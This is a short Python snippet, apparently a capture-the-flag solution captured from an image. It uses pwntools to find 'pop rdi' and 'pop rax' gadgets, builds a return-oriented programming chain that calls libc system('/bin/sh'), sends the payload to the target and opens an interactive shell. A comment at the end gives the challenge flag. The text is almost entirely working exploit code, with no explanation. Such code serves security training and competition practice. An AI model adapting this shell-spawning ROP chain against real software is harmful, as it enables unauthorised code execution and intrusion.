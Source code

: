 ```python
rdi = rop.find_gadget(["pop rdi",'ret'])[0]
rax = rop.find_gadget(["pop rax",'ret'])[0]


rop_chain = [rdi,libc.search(b"/bin/sh").__next__(),rax,libc.sym["system"]]
dest, payload = fx3(libc,16,rop_chain,1) 
success(hex(dest))
success(hex(len(payload)))


p.sendline((hex(dest)))
p.sendline(payload)

p.interactive()
# CGGC{0ne_sh0t_14_4ll_y0u_nEEd!}
```